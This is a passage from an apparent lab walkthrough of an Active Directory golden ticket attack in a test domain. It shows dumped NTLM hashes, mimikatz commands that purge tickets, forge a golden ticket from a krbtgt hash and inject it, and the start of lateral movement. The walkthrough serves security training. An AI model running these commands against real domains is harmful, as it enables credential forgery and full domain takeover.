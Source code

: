 ```console
NTLM : e629246410c5795d27b1f16b221cf083

RID  : 0000045c (1116)
User : CLIENT$
LM   :
NTLM : e2c3ed7139fd3efd244df58c9b2aeb6b
```

## 5.2. Create golden ticket using information retrieved from domain controller
- This can be performed on any domain member machine, without administrator rights
- ☝️ **Note**: it is important to run `kerberos::purge` even if `klist` show zero cached tickets
- The `misc::cmd` command opens a command prompt session with the golden ticket injected to that session

```console
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::golden /user:nonexistentuser /domain:lab.vx /sid:S-1-5-21-1470288461-3401294743-676794760 /krbtgt:3ac4cccaca955597db0d11a7ffa50025 /ptt
User      : nonexistentuser
Domain    : lab.vx (LAB)
SID       : S-1-5-21-1470288461-3401294743-676794760
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 3ac4cccaca955597db0d11a7ffa50025 - rc4_hmac_nt
Lifetime  : 23/4/2022 4:05:49 pm ; 20/4/2032 4:05:49 pm ; 20/4/2032 4:05:49 pm
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'nonexistentuser @ lab.vx' successfully submitted for current session

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF6FF396438
```

## 5.3. Use the golden ticket to laterally move to **any** domain machine
- Verify golden ticket in session

```console
C:\Users\john>hostname
CLIENT

C:\Users\john>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 192.168.17.161
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.17.1

C:\Users\john>klist
```